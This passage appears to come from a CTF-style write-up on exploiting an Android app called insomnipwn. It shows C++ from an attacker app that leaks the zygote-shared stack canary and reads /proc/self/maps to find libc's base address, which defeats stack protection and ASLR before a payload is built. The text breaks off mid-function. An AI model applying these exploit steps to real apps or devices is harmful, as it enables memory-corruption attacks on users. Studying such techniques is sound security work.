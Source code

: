 Since all processes are forked from `zygote64`, all processes have the same stack canary value (changing canary value after a `fork()` would be a total mess). Yes, the stack canary is useless in our threat model. We can simply leak the canary value from our own memroy space:

```c++
// cpp/main.cpp

#define LOG_TAG "[native_insomnipwn]"
#include <android/log.h>
#define ALOGI(...) __android_log_print(ANDROID_LOG_INFO, LOG_TAG, __VA_ARGS__)
#define ALOGE(...) __android_log_print(ANDROID_LOG_ERROR, LOG_TAG, __VA_ARGS__)

//apktool d app-debug.apk
//then, load the libmynativelib.so to Ghidra to validate
static __attribute__((noinline)) __attribute__((optnone))
uint64_t canaryLeaker() {
    char *canaryPtr = (char*)(&canaryPtr)+0x08;

    //bunch of prints that should force the canary on the stack
    ALOGI("canaryLeaker= 0x%llx", canaryLeaker);
    ALOGI("JNI_OnLoad= 0x%llx", JNI_OnLoad);
    ALOGI("canaryPtr stored @ 0x%llx", &canaryPtr);
    ALOGI("canary addr= 0x%llx", canaryPtr);

    return *(uint64_t*)canaryPtr;
}
extern "C"
JNIEXPORT jbyteArray JNICALL
Java_com_example_insomnipwn_MainActivity_buildPayload(JNIEnv *env, jobject thiz) {
    uint64_t canary = canaryLeaker();
    ALOGI("canary= 0x%llx", canary);
    //...
}
```

### Leaking libc

How about leaking libc? Well, there is no need to leak libc from the target application. As all Android applications are forked from `zygote64` and `libc.so` is mapped in `zygote64`, `libc.so` is mapped in all applications at the same address ranges. So, we can simply read `/proc/self/maps` to get the base address of `libc.so`:

```c++
// cpp/main.cpp
int ends_with(const char *str, const char *suffix) {
    if (!str || !suffix)
        return 0;
    size_t lenstr = strlen(str);
    size_t lensuffix = strlen(suffix);
    if (lensuffix >  lenstr)
        return 0;
    return strncmp(str + lenstr - lensuffix, suffix, lensuffix) == 0;
}
static uint64_t libcLeaker() {
    uint64_t libc_base = NULL;
    char * line = NULL;
    size_t line_len = 0;
    FILE *fp = fopen("/proc/self/maps", "r");
    if (fp == NULL) {
        ALOGE("failed to open /proc/self/maps");
        return NULL;
    }
    while (getline(&line, &line_len, fp) != -1) {
        //trim line endings
        if(line_len > 0)
```